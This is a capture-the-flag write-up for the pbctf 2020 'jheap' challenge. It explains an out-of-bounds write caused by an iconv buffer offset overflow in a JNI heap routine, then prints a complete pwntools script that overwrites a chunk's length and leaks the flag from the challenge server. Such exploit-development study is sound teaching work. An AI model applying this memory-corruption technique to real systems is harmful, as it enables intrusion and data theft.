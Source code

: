 Writeup by - [Faith](https://twitter.com/farazsth98)  
I spent around 3 hrs solving this. I wish I had more time to spend on this CTF because the challenges looked really good!

# Challenge

* **Points**: 420
* **Solves**: 4
* **Files**: [jheap.tar.gz](https://storage.googleapis.com/pbctf-2020-ctfd/ab76a2f1cb135751491b577613e89c2f/jheap.tar.gz), [jheap.conf](https://storage.googleapis.com/pbctf-2020-ctfd/d33db98e497d702ff84f0e29f62da25d/jheap.conf)

Basically just a Java Heap pwn challenge. You can create and edit chunks, but its done through a JNI function written in C, which means memory corruption is a possibility.

# Bug

In `src/heap.c`, when `from_utf` is called, the `outbuf` argument for `iconv` is set to `data + offset*2`. `offset*2` can overflow past `data` easily which provides an OOB write on the java heap.

# Exploit

Through trial and error I found that if you put the flag into the very last data chunk, then the data chunk's buffer is a few hex thousand bytes before the flag's contents. My idea then was to use the oob write from the second last data chunk to overwrite the last data chunk's size to a large number, and then view the last data chunk to hopefully get the flag.

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF("./deploy/bin/java")
#p = process(["./deploy/bin/java", "-Xmx200m", "-XX:+UseG1GC", "-Xms200m", "-m", "jheap/com.thekidofarcrania.heap.JHeap", "-XX:+PrintJNIGCStalls", "-XX:+PrintGCDetails"])
p = remote("jheap.chal.perfect.blue", 1)

def edit(idx, offset, content):
    p.sendlineafter("> ", "0")
    p.sendlineafter("Index: ", str(idx))
    p.sendlineafter("Offset: ", str(offset))
    p.sendlineafter("Content: ", content)

def leak(idx):
    p.sendlineafter("> ", "2")
    p.sendlineafter("Index: ", str(idx))

def view(idx):
    p.sendlineafter("> ", "1")
    p.sendlineafter("Index: ", str(idx))

# Chunks are initialized full of null bytes. You can view a chunk and count the
# number of bytes returned to get the size of the chunk
def get_size(idx):
    p.sendlineafter("> ", "1")
    p.sendlineafter("Index: ", str(idx))

    p.recvuntil(" = ")
    data = p.recvuntil("*")[:-1]

    return len(data)-2 # account for newline

# Control chunk 47's len through this, set it to 0x40000
# I found the +11 offset through trial and error and just checking GDB
# I found that using magic values ("QWERASDFZXCV" is what i used) combined
# with search-pattern in gdb gef worked really well for me to find my chunk
# The offset doesn't work 100% of the time but it works most of the time
edit(46, get_size(46)//2+11, "\u0000\u0004" + "\u1337"*6)

# Put the flag on the heap way past chunk 47
leak(47)

#gdb.attach(p)

# Leak 0x40000 bytes, hopefully the flag will be inside
view(47)

# Find the flag
flag = p.recvuntil(">>> JHeap")
idx = flag.find(b"pbctf{")

# Print dat shit
if idx != -1:
    print(flag[idx:idx+80])

p.interactive()
```
